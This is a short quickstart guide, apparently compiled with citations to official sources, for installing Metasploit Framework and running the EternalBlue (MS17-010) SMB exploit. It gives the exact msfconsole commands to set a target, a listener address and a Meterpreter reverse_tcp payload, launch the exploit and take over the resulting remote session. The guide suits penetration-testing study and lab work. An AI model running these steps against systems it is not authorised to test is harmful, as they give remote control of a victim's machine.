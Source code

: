 # Quickstart with Metasploit Framework:

1. **Download and install** Metasploit Framework from the [official Get Started page](https://www.metasploit.com/get-started) or via your package manager (e.g., `sudo apt install metasploit-framework` on Kali/Ubuntu).
2. **Initialize the database** by running `msfdb init` (or let the first console launch prompt you).
3. **Start the console** with `msfconsole`; wait for the `msf6 >` prompt.
4. **Verify connectivity** using `db_status` (should say “connected”) and pull the latest modules with `msfupdate`.
5. **Find an exploit**—for example, `search cve:2017-0144` or `search smb`.
6. **Load the module** you want (`use exploit/windows/smb/ms17_010_eternalblue`) and view required settings with `show options`.
7. **Configure the target & payload**:

   * `set RHOSTS <target-ip>`
   * `set LHOST <your-ip>`
   * `set PAYLOAD windows/x64/meterpreter/reverse_tcp` (or another suitable payload).
8. **Launch the attack** with `run` or `exploit`; once you obtain a Meterpreter session, list active sessions with `sessions -l` and interact using `sessions -i <id>`.

([metasploit.com][1], [kali.org][2], [kali.org][3], [github.com][4], [github.com][5])

[1]: https://www.metasploit.com/get-started "Getting Started with Metasploit for Penetration Testing"
[2]: https://www.kali.org/tools/metasploit-framework/ "metasploit-framework | Kali Linux Tools"
[3]: https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/ "Metasploit Framework | Kali Linux Documentation"
[4]: https://github.com/rapid7/metasploit-framework/wiki/msfdb%3A-Database-Features-%26-How-to-Set-up-a-Database-for-Metasploit/2a66094517649eff8ca8819951d0e2659d9b57b2 "msfdb: Database Features & How to Set up a Database for Metasploit"
[5]: https://github.com/rapid7/metasploit-framework "rapid7/metasploit-framework - GitHub"
